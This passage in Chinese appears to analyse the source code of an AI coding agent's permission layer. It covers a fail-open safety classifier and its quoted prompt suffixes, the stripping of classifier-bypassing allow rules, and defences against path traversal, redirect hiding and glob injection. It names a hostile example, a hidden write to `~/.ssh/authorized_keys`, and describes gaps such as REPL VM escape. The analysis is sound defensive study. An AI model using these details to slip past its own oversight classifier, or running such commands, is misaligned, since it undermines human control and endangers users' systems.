  getFeatureValue_CACHED_WITH_REFRESH(
    'tengu_iron_gate_closed',
    true,
    CLASSIFIER_FAIL_CLOSED_REFRESH_MS,  // 30 分钟
  )
) {
  return { behavior: 'deny', reason: 'Classifier unavailable' }
}
return result  // 故障开放：回退到正常权限处理
```

`CLASSIFIER_FAIL_CLOSED_REFRESH_MS = 30000`——故障关闭/开放决策缓存 30 分钟。防止故障期间重复 API 调用，但意味着决策可能陈旧 30 分钟。

通过 `logAutoModeOutcome()` 追踪每次请求的分类结果解析失败、错误和超限条件。

---

## 9.27 两阶段 XML 分类器流水线

`yoloClassifier.ts`（540-800 行）——GrowthBook 控制的 A/B 测试路径：

**阶段 1**——后缀 `
Err on the side of blocking. <block> immediately.` 获取即时决策。

**阶段 2**——后缀 `
Review the classification process... Use <thinking> before responding with <block>.` 获取推理。

响应使用 XML 标签（`<block>`、`<reason>`、`<thinking>`），正则解析前先剥离 thinking 内容防止 reasoning 内的标签误匹配：

```typescript
function stripThinking(text: string): string {
  return text
    .replace(/<thinking>[\s\S]*?<\/thinking>/g, '')
    .replace(/<thinking>[\s\S]*$/, '')
}
```

---

## 9.28 进入 Auto Mode 的危险规则消毒

`permissionSetup.ts`（85-342 行）——进入自动模式时主动识别并剥离绕过分类器的 allow 规则：

**Bash 危险模式检测——5 种匹配变体**：
| 变体 | 示例 | 匹配 |
|------|------|------|
| 精确匹配 | `python` | `python` |
| 前缀语法 | `python:*` | `python: anything` |
| 通配符 | `python*` | `python3`, `python3.9` |
| 空格通配 | `python *` | `python anything` |
| 标志通配 | `python -*` | `python --help` |

**PowerShell**——包含 `.exe` 后缀匹配（Windows）：`npm` 模式转换为 `npm.exe run:*`。

**Agent 工具**——**任何** Agent allow 规则都视为危险，因为它自动批准子 agent 生成，分类器来不及评估子 agent 的 prompt。

---

## 9.29 跨平台路径遍历防御（符号链接规范化）

`permissions/filesystem.ts`（683-744 行）——`pathInWorkingPath()` 的规范化管道：

1. Tilde 扩展
2. **macOS 符号规范化**：`/private/var/` → `/var/`，`/private/tmp/` → `/tmp/`
3. **不区分大小写文件系统的 case 规范化**
4. POSIX 语义相对路径计算
5. `containsPathTraversal()` 检查：`(?:^|[\/])\.\.(?:[\/]|$)/`——阻断 `../`、`..\` 和 `..` 结尾路径

`getPathsForPermissionCheck()` 被 memoized 避免重复系统调用——解析符号链接并对单次检查生成多种路径表示。

---

## 9.30 静态重定向目标验证

`bash/commands.ts`（46-81 行）——`isStaticRedirectTarget()` 验证输出重定向路径（如 `cat > output.txt`）：

```typescript
function isStaticRedirectTarget(target: string): boolean {
  if (/[\s'"]/.test(target)) return false    // 拒绝空白/引号
  if (target.startsWith('!')) return false   // 拒绝历史展开
  if (target.includes('$')) return false     // 拒绝变量
  if (target.includes('`')) return false     // 拒绝命令替换
  if (target.includes('*')) return false     // 拒绝通配符
  if (target.includes('{')) return false     // 拒绝扩展
  if (target.includes('(')) return false     // 拒绝进程替换
  // ...
}
```

**关键场景**：`cat > $HOME/.ssh/authorized_keys` 如果做天真的剥离，目标路径对用户隐藏。相邻字符串折叠将 `> /dev/null 2>&1` 合并为 `/dev/null 2` 后，剥离 FD 后缀正确识别实际目标 `dev/null`。

---

## 9.31 无头 Agent Hook 回退模式

`permissions.ts`（929-952 行）——SDK/CI 中 headless 权限的 hook 扩展点：

```typescript
if (appState.toolPermissionContext.shouldAvoidPermissionPrompts) {
  const hookDecision = await runPermissionRequestHooksForHeadlessAgent(
    tool, input, toolUseID, context, mode, suggestions,
  )
  if (hookDecision) return hookDecision  // hook 提供了决策
  return { behavior: 'deny', reason: 'Permission prompts are not available' }
}
```

非总是自动拒绝——先运行 PermissionRequest hooks 给程序化 allow/deny 机会。仅无 hook 决策时才自动拒绝。支持集成方实现自定义 headless agent 策略。

---

## 9.32 REPL/Agent 工具绕过防护

`permissions.ts`（593-605 行）——`acceptEdits` 快速路径中的微妙安全细节：

```typescript
if (
  result.behavior === 'ask' &&
  tool.name !== AGENT_TOOL_NAME &&
  tool.name !== REPL_TOOL_NAME
) {
  // acceptEdits fast path
}
```

REPL 工具被排除在 `acceptEdits` 快速路径之外——REPL 代码可包含内部工具调用间的 VM 逃逸。分类器必须看到胶水 JavaScript，不只是内部工具调用。同样 Agent 工具被排除防止子 agent 生成在分类器评估前被静默自动批准。

---

## 9.33 技能范围的 Glob 注入防御

`permissions/filesystem.ts`（101-157 行）——`getClaudeSkillScope()` 防御两类攻击：

```typescript
// 拒绝遍历和空名。用 includes('..') 而非 === '..'
if (!skillName || skillName === '.' || skillName.includes('..')) return null
// 拒绝 glob 元字符
if (/[*?[\]]/.test(skillName)) return null
```

**遍历攻击**：目录名为 `v2..beta` 看起来正常但包含 `..`，匹配时被拒绝创建无限重提示循环。

**Glob 注入**：目录名为 `*` 将范围扩展到所有技能——`/.claude/skills/*/**` 匹配所有技能目录。

函数返回精确到该技能的 gitignore 模式（如 `/./claude/skills/my-skill/**`）而非授权整个 `.claude/` 目录。

---
